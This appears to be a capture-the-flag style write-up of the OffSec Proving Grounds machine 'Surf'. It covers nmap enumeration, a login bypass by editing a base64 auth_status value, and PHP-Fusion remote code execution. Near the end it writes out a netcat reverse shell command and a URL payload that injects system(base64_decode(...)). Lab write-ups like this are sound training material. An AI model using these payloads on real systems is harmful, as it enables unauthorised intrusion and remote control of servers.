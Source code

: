 #### Enumeration

```
# Nmap 7.91 scan initiated Sun Nov 14 05:24:04 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/xml/_full_tcp_nmap.xml 192.168.73.171
Increasing send delay for 192.168.73.171 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 192.168.73.171 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
Warning: 192.168.73.171 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.73.171
Host is up, received user-set (0.21s latency).
Scanned at 2021-11-14 05:24:05 EST for 1150s
Not shown: 65529 closed ports
Reason: 65529 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp    open     http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Surfing blog
25803/tcp filtered unknown no-response
40073/tcp filtered unknown no-response
42514/tcp filtered unknown no-response
58164/tcp filtered unknown no-response
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/14%OT=22%CT=1%CU=41788%PV=Y%DS=2%DC=T%G=Y%TM=6190E8
OS:43%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=
OS:M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7
OS:%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y
OS:%DF=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G
OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 3.956 days (since Wed Nov 10 06:47:01 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   209.35 ms 192.168.49.1
2   208.30 ms 192.168.73.171

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 05:43:15 2021 -- 1 IP address (1 host up) scanned in 1151.78 seconds

```

After browsing a while, the website looks nothing interesting. We use feroxbuster to discover new content.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h00m37s_001_.png)

We find a administration directory that is a login page. Using hydra with username ```admin``` to try to brute force a valid credential but failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h01m56s_002_.png)

I use Burp Sutie for further analysis. There is an interesting setting in login page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h02m39s_003_.png)

We decode auth_status base64 string and get a string ```{'success':'false'}```. 

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h03m30s_004_.png)

Trying to modify it to bypass the login verification.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h15m30s_005_.png)

We log in successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h19m42s_006_.png)

The ```Check Server Status``` page can check that the server where is installed PHP-Fusion is correctly running.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h00m22s_007_.png)

I found an RCE [vulnerability](https://www.exploit-db.com/exploits/49911) related to PHP-Fusion. Refer to the vulnerability description we create a new request payload to try to get the reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h28m33s_008_.png)

Encoding the connection string to base64 format and make sure to add spaces to avoid ```+``` or ```=```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_15h49m48s_009_.png)

```
echo "nc -e /bin/bash 192.168.49.162 80  " | base64
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h07m15s_010_.png)

We now combine request and base64 strings and modify the request url in Burp Suite.

```
http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=${system(base64_decode(bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTYyIDgwICAK))}
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h22m10s_011_.png)

Sending the request to the server and get the shell successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h31m46s_012_.png)
